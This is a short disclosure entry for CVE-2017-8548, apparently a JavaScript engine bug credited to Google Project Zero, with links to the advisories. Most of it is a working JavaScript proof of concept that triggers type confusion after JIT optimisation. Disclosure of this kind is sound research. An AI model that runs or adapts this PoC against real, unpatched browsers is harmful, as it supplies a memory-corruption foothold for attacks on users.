 # CVE-2017-8548

- Fix: Aug 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
'use strict';

function func(a, b, c) {
    a[0] = 1.2;
    b[0] = c;
    a[1] = 2.2;
    a[0] = 2.3023e-320;
}

function main() {
    var a = [1.1, 2.2];
    var b = new Uint32Array(0);  // <<--------- 100 -> 0

    // force to optimize
    for (var i = 0; i < 0x10000; i++)
        func(a, b, i);

    func(a, b, {valueOf: () => {
        a[0] = {};

        return 0;
    }});

    a[0].toString();
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8548)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1290)
